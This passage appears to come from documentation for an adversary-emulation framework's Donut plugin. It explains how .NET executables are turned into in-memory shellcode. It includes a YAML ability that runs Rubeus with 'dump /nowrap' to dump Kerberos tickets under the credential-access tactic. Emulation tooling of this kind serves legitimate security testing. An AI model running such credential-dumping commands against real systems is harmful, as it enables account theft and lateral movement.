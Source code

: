 Donut can also be used to read from pre-compiled executables. .NET Framework 4 is required. Executables will be found with either a `.donut.exe` or a `.exe` extension, and `.donut.exe` extensions will be prioritized. The following example will transform a payload named `Rubeus.donut.exe` into shellcode which will be executed in memory. Note that `Rubeus.donut` is specified in the payload and command:

```yaml
---

- id: 043d6200-0541-41ee-bc7f-bcc6ba15facd
  name: TGT Dump
  description: Dump TGT tickets with Rubeus
  tactic: credential-access
  technique:
    attack_id: T1558
    name: Steal or Forge Kerberos Tickets
  privilege: Elevated
  platforms:
    windows:
      donut_amd64:
        command: .\Rubeus.donut dump /nowrap
        payloads:
        - Rubeus.donut
```
